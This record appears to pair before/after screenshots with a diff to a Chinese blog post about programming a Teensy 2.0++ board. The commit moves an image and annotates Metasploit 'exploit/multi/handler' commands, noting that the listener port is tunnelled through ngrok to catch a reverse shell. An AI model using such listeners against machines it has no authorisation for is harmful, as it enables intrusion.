

Before and after one commit to linusboyle/linusboyle.cn, a Jekyll site: the page built from _posts/2018-09-25-Arduino-Teensy.md, in a window 1280 px wide and 900 px high, scrolled down 2665 px. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; nearby versions of some CDN libraries; our own code applies the rules of GitHub Pages for plain Markdown files; Markdown is read by kramdown in place of the engine named in the settings; comment, search, counter and statistics services are not loaded.

Commit message:
Update 2018-09-25-Arduino-Teensy.md

````diff
--- a/_posts/2018-09-25-Arduino-Teensy.md
+++ b/_posts/2018-09-25-Arduino-Teensy.md
@@ -7,12 +7,11 @@
 
 ### 准备工作
 * 一块 **Teensy2.0++** 的板子(淘宝一搜就有)
-![1](http://da1sy.github.io/assets/images/9-Yue/teensy-1.jpg)
 * Arduino解释器
     - 1.8.7版本下载连接：[arduino下载地址](https://downloads.arduino.cc/arduino-1.8.7-linux64.tar.xz "arduino")
 * Teensy插件
     - 下载连接：[Teensy下载地址](https://www.pjrc.com/teensy/td_144/TeensyduinoInstall.linux64 "Teensy")
-
+![1](http://da1sy.github.io/assets/images/9-Yue/teensy-1.jpg)
 ### 1.下载好arduino后直接解压
 ```linux
 ⚡ /home/da1sy/arduino-1.8.7# ./arduino
@@ -74,7 +73,7 @@
 
 msf > use exploit/multi/handler
 msf exploit(multi/handler) > set lhost 127.0.0.1
-msf exploit(multi/handler) > set lport 6666
+msf exploit(multi/handler) > set lport 6666        //ngrok开通隧道时填写的本地地址与端口号
 msf exploit(multi/handler) > exploit
 ```
 ![5](http://da1sy.github.io/assets/images/9-Yue/teensy-5.png)
````
